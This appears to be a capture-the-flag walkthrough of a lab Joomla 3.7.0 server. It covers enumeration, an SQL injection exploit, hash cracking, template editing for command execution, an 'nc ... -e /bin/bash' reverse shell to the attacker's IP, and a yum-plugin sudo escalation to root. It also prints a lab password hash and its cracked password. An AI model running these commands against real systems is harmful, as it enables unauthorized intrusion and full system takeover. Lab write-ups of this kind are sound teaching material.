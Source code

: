 ENUMERATION:

Nmap:
![image](https://user-images.githubusercontent.com/126739122/234122185-0054ecf3-01eb-41a9-bd8e-9eebb7de0976.png)

Ran gobuster on http://10.10.249.26:
![image](https://user-images.githubusercontent.com/126739122/234122224-8ea8210a-face-4cb6-a1f9-96de314d0502.png)

Browsed to http://10.10.249.26/administrator and found this login webpage:
![image](https://user-images.githubusercontent.com/126739122/234122240-205379fe-1d3a-4329-86c8-8357a71eff80.png)

INITIAL FOOTHOLD:

REF: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla
Browsed to http://10.10.249.26/administrator//language/en-GB/en-GB.xml
	- found Joomla version: 3.7.0

Searched for any known exploits for Joomla 3.7.0
	- REF: https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

Ran python script and found user credentials for jonah:$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

Cracked password hash with JohnTheRipper:
![image](https://user-images.githubusercontent.com/126739122/234122248-2c49f10f-2a53-49d9-aa10-71b8d8cd7121.png)

Successfully logged into administrator login page with jonah:spiderman123 credentials
Following Hacktricks REF linked above, there is a way to gain RCE on the webserver through admin portal for Joomla

Edited error.php page in "protostar" template for Joomla:
![image](https://user-images.githubusercontent.com/126739122/234122256-f94f50d6-b927-496a-bd45-24abdfe33260.png)

Browsed to http://10.10.249.26/administrator/templates/protostar/error.php?cmd=nc 10.6.47.128 6251 -e /bin/bash
Spawned a fully interactive reverse shell on webserver

PRIVILEGE ESCALATION:

Transferred over LinPEAS.sh script from local machine to /tmp folder on webserver as 'apache' user and found the following:
![image](https://user-images.githubusercontent.com/126739122/234122262-2a152e5a-bd6d-4603-af18-459377c261d3.png)

Attempted to use this password for 'apache' user to check sudo permissions (incorrect password)
This ended up being the password for 'jjameson' user account on this machine
Switched over to  jjameson user and ran LinPEAS again:
![image](https://user-images.githubusercontent.com/126739122/234122270-ede61530-8450-4bf5-a06f-e87ae32cc236.png)

REF: https://gtfobins.github.io/gtfobins/yum/
ran commands:
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF
cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF
cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
sudo yum -c $TF/x --enableplugin=y

FOUND BOTH USER AND ROOT FLAGS
